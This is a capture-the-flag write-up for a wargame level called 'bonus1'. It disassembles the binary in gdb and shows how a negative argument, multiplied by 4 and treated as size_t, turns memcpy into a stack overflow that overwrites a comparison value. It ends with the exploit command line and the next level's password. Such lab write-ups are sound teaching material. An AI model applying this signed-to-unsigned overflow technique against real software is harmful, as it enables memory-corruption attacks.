








### Bonus 1

#### Basic Recon

there's no obvious shell here, but there's call to `execl`, there is call to `atoi` that is why I tried numbers as input also, let's
debug and see what is going on here, maybe we should get to `execl` we will see later.

#### Debug
stack allocation of main




and by the address for may be different depending on how you did call it in this case
`gdb --args ./bonus1 1 2`

these instructions

```s
mov eax, DWORD PTR [ebp+0xc]
add eax, 0x4
mov DWORD PTR [esp], eax
```




now at `esp` we have pointer to the first argument, in this case it is the value `1`
which is being passed to `atoi`



the next list of instructions has the effect of moving the value returned by `atoi` to location
*[esp+0x3c]* and compare it against *0x9*

```s
mov DWORD PTR [esp+0x3c], eax
cmp DWORD PTR [esp+0x3c], 0x9
```

after that there's
```s
jle main+43
```
if this is true that means we are going to skip `jmp main+127` which is what I want because if we did
get there (main+127) we would get out and skip `execl`



after that we have this instruction
```s
mov eax, DWORD PTR [esp+0x3c]
```
that means eax will have the value 1 for now

after that we have
```s
lea ecx, [eax*4+0x0]
```
so now ecx = eax*4 = first_input * 4


the following instructions are responsible for getting the second input
```s
mov eax, DWORD PTR [ebp+0xc]
add eax, 0x8
mov eax, DWORD PTR [eax]
mov edx, eax
```

so now eax and edx are pointing to the second input


```s
lea eax, [esp+0x14]
```

now eax point to location in the current stack frame





after that there's call to `memcpy`

```s
mov DWORD PTR [esp+0x8], ecx ; our first input as number multiplied by 4
mov DWORD PTR [esp+0x4], edx ; pointer to our second input
mov DWORD PTR [esp], eax ; pointer in the current stack frame
```

<spane id="memcpy_call"></a>
```c
memcpy(
    0xbffff6c4, // where to put the data
    0xbffff8dc, // second input
    0x4, how many characters to copy
);
```



as you can see from the following `cmp DWORD PTR [esp+0x3c], 0x574f4c46`, so somehow in this location
I need that value to be there you maybe tempted to put the value *0x574f4c46/4* as first input, that
would be mistake because, there's that compare with 0x9 and even if it was not there,
it's going to overwritten by `memcpy` later

hold on take look at we call <a href="#memcpy_call">memcpy</a>

you can see that we can overflow? that location can we? well it seems no because memcpy will copy 
first_input*4, which at max reach 9*4=36, so it's not going to reach the desired location `[esp+0x3c]`
for that we need at at least 44 how would I know we are writing at esp+0x14 and we want to overwrite
esp+0x3c so 44 = 4 + 0x3c=0x14, so are we done game over no way? let's take deeper look at `memcpy`

```c
void *memcpy(void *to, const void *from, size_t numBytes);
```
oops you can see that it takes size_t so what? that means we can pass negative value and it will
cast it, let's try it and see


as you can see we have reached `memcpy` with very big value now we just need to find the value 44
after the cast, let's check this stuff in details

```
1000 0000 0000 0000 0000 0000 0000 0001 = -2147483647 very small value
```

when multiplied by 4

```
00 0000 0000 0000 0000 0000 0000 000100 = 4
```

keep in mind that multiplying by 4 is like shifting by 2



so you can see it is fine, so what we need now is sequence that after multiplying by 4 aka shift by 2
gives 44 why remember I want memcpy to copy 44


here's the sequence that I want after *4
```
00 0000 0000 0000 0000 0000 0000 101100 = 44
```

so that means I should Input this keep mind multiplying by 4 is shifting by 2
```
1000 0000 0000 0000 0000 0000 0000 1011 = -2147483637 use some binary to decimal website
```

#### Payload

```
./bonus1 -2147483637 $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"') 
```


#### Password for bonus2

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```